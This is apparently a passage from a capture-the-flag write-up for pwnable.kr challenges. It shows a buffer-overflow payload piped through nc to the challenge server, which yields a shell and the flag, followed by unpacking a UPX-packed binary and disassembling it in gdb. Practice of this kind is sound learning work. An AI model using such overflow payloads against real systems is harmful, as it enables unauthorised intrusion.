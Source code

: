 payload: 'a'*(44+8) + '\xbe\xba\xfe\xca'

```bash
junheah@DESKTOP-RU0PI5L:~$ (python -c "print 'a'*(44+8) + '\xbe\xba\xfe\xca\n'";cat) | nc pwnable.kr 9000

whoami
bof
cat flag
daddy, I just pwned a buFFer :)
```

## 3. flag
when binary file is loaded to gdb, no function is shown.
The binary has to be packed
```bash
junheah@DESKTOP-RU0PI5L:$ hexdump -C flag | grep -C 1 UPX
000000a0  00 00 00 00 00 00 00 00  00 00 20 00 00 00 00 00  |.......... .....|
000000b0  fc ac e0 a1 55 50 58 21  1c 08 0d 16 00 00 00 00  |....UPX!........|
000000c0  21 7c 0d 00 21 7c 0d 00  90 01 00 00 92 00 00 00  |!|..!|..........|
--
0004a660  73 20 66 69 6c 65 20 69  73 20 70 61 63 6b 65 64  |s file is packed|
0004a670  20 77 69 74 68 20 74 68  65 20 55 50 58 20 65 78  | with the UPX ex|
0004a680  65 63 75 74 61 62 6c 65  20 70 61 63 6b 65 72 20  |ecutable packer |
0004a690  68 74 74 70 3a 2f 2f 75  70 78 2e 73 66 2e 6e 65  |http://upx.sf.ne|
0004a6a0  74 20 24 0a 00 24 49 64  3a 20 55 50 58 20 33 2e  |t $..$Id: UPX 3.|
0004a6b0  30 38 20 43 6f 70 79 72  69 67 68 74 20 28 43 29  |08 Copyright (C)|
--
```
By doing a bit of examination, we can find out that it is packed with upx

Lets unpack this binary

```bash
junheah@ubuntu:~/Desktop/upx-3.95-amd64_linux$ ./upx -d ../flag
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2018
UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
    883745 <-    335288   37.94%   linux/amd64   flag

Unpacked 1 file.
```
now the binary is ready for disassembly
```bash
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000401164 <+0>:	push   rbp
   0x0000000000401165 <+1>:	mov    rbp,rsp
   0x0000000000401168 <+4>:	sub    rsp,0x10
   0x000000000040116c <+8>:	mov    edi,0x496658
   0x0000000000401171 <+13>:	call   0x402080 <puts>
   0x0000000000401176 <+18>:	mov    edi,0x64
   0x000000000040117b <+23>:	call   0x4099d0 <malloc>
   0x0000000000401180 <+28>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401184 <+32>:	mov    rdx,QWORD PTR [rip+0x2c0ee5]        # 0x6c2070 <flag>
   0x000000000040118b <+39>:	mov    rax,QWORD PTR [rbp-0x8]
   0x000000000040118f <+43>:	mov    rsi,rdx
   0x0000000000401192 <+46>:	mov    rdi,rax
   0x0000000000401195 <+49>:	call   0x400320
   0x000000000040119a <+54>:	mov    eax,0x0
   0x000000000040119f <+59>:	leave  
   0x00000000004011a0 <+60>:	ret    
End of assembler dump.
```
